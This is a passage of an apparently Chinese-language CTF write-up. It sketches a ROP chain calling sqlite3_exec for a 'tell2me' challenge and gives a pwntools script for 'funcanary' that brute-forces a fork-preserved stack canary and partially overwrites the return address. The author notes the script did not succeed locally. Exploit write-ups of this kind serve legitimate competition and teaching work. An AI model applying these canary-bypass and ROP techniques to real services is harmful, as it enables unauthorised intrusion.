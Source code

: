 同样的利用可以进入到 tell2me 中，我们发现要与服务器进行通信需要 RTC，不过这到最后也没配上，内网穿透 STUN 打不通。



让我们来看 pwn 的部分，很简单。

![image-20230528223623912](https://cdn.ova.moe/img/image-20230528223623912.png)

memcpy 从返回地址开始盖了 0x18 字节，布置 pop rdi;ret [fake rdi]; addr_of_sqlite3_exec 的rop链，其中 fake rdi 放在输入的 buffer 上即可构造一个语句拼接执行。

由于没环境，所以打不了



## funcanary

fork 的特点， canary 不会变。

没有远程环境，本地没打通，不知道啥问题，思路就那样，唯一的问题就是最后需要爆一字节（两字节，只有低 12bit 相同），但是这里没有爆通，多线程懒得调，将就看吧

```python
from pwn import *

context(arch='amd64', os='linux')
context.log_level = 'debug'
context.terminal = 'wt.exe bash -c'.split(' ')


canary = b'\x00'
sh = process(['./funcanary'])

elf = ELF('./funcanary')
for k in range(7):
    for i in range(0xff+1):
        sh.recvuntil(B'welcome\n')
        sh.send(s := B'A'*0x68 + canary + i.to_bytes(1, 'little'))
        if (a := sh.recvline()) != b'*** stack smashing detected ***: terminated\n':
            canary += i.to_bytes(1, 'little')
            success(canary.hex())
            break

# gdb.attach(sh, 'b *$rebase(0x12B6)\nset detach-on-fork off')
# pause()
for i in range(0x10):
    sh.send(s := B'A'*0x68 + canary + p64(0) + b'\x29' + ((i<<4) + 2).to_bytes(1, 'little'))
    if b'welcome' not in (b := sh.recvline()):
        print(b)
        sh.interactive()
    
```



## shellwego
